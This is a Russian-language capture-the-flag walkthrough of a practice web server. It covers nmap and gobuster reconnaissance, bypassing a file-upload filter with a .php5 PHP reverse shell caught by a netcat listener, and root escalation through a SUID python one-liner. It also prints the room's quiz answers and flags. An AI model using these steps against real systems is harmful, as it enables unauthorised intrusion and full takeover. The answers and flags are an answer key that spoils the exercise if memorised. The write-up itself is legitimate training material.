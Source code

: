 ## Recon

Смотрим открытые порты у цели: 
```bash
$ nmap -sC -sV -oN def_skan target

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
```

Видим что открыто 2 порта: порт 22 для ssh и порт 80 для HTTP. На порту 80 запущен веб-сервер Apache 2.4.29

Запускаем `gobuster` для  просмотра директорий

```bash 
$ gobuster dir -u http://target/ -t 50 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 302] [--> http://target/uploads/]
/js                   (Status: 301) [Size: 297] [--> http://target/js/]
/panel                (Status: 301) [Size: 300] [--> http://target/panel/]
/css                  (Status: 301) [Size: 298] [--> http://target/css/]
/server-status        (Status: 403) [Size: 271]
```

Нашли скрытую директорию `/panel`. Зайдя туда, мы видим, что на сайт можно загрузить файл. Также в `gobuster` можно увидеть директорию `/upload`, там мы можем увидеть загруженные нами файлы.


**Сколько портов открыто?:** 2

**Какая версия Apache?:** 2.4.29

**Что запущено на порту 22?:** ssh

**Какую скрытую директорию вы нашли?:** /panel
## Getting a shell

**Search for "file upload bypass" and "PHP reverse shell".**

Для получения доступа к терминалу мы будем использовать обратную оболочку. Заходим на сайт https://www.revshells.com/ и скачивае оттуда скрипт, меняем расширение файла на ".php5", потому что сервер не пропускает фалы с расширением ".php".

Запускаем `netcat`

`$ nc -lnvp 8888`

Загружаем файл на сервер и с помощью директории "/uploads" запускаем его.
Получили доступ к терминалу.

Ищем файл `user.txt`:

`$ find | grep user.txt`

Файл находится в директории: `/var/www`

Читаем:
```bash
$ cat /var/www/user.txt

THM{y0u_g0t_a_sh3ll}
```

**Вот и флаг:** THM{y0u_g0t_a_sh3ll}

## Privilege escalation

Ищем файлы с SUID:

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
```

Нашли: `/usr/bin/python`

```bash
$ cd /usr/bin

$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

whoami
root

cd /root
cat root.txt

THM{pr1v1l3g3_3sc4l4t10n}
```

**Флаг найден:** THM{pr1v1l3g3_3sc4l4t10n}